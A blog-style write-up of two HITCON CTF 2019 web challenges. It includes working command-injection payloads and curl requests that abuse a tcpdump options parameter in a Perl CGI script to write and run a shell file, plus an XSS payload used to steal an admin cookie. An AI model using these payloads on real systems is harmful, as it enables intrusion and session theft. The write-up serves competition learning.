 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that <code>return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;</code> and <code># backdoor :)</code> comment, we can see that our shell will be located at <code>./tmp/</code>.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell<br>
<code>my $tpl = CGI::param("tpl");<br>
...
    $tpl = "./tmp/" . $tpl . ".thtml";<br>
    require($tpl);</code><br>
So I can create a final payload like this: <code>-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball</code> and urlencode it<br>
<code>curl 'http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%<&tpl=dragonball </code>
    <code>$READ_FLAG$</code>
<code>FLAG</code>
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old</code><br>
Encode `$` to read flag `$READ_FLAG` because $ will be interpreted as bash variable in Perl language and I can get it like this `\x24`. Using `sh -c '[command]'` to read flag because it is a binary file.<br>
Finall payload: `-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`<br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`<br>
Reference: 
<br><h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to `https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361`<br>
So using <code>_${alert()}`-"-(`${`_</code> to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
